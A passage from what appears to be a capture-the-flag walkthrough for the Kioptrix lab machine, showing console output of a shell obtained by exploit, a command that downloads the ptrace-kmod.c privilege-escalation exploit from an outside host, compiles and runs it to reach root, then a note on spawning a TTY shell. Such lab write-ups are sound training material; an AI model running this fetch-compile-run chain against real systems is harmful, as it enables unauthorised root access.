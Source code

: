 ```console
cipher: 0x4043808c   ciphers: 0x80fa068
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
d.c; ./exploit; -kmod.c; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm ptrace-kmo 
--20:52:11--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: 3,921 [text/x-csrc]

20:52:12 (3.74 MB/s) - `ptrace-kmod.c' saved [3921/3921]

gcc: file path prefix `/usr/bin' never used
[+] Attached to 12590
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
whoami
root
```

See the whoami command at the end? we're root :)
- [x] Gain root access to the machine


# Capture The Flag
Once we have a ***shell*** using on of the above methods, we need to spawn a TTY shell. `/bin/bash -i` is used to get active ***bash shell***. You can find other options on the post Summary below.

Let's look at the user's commands history:

```console
[root@kioptrix tmp]# history
history
    1  ls
    2  mail
    3  mail
    4  clear
    5  echo "ls" > .bash_history && poweroff
    6  nano /etc/issue
    7  pico /etc/issue
    8  pico /etc/issue
    9  ls
   10  clear
   11  ls /home/
   12  exit
   13  ifconfig
   14  poweroff
   15  history
```
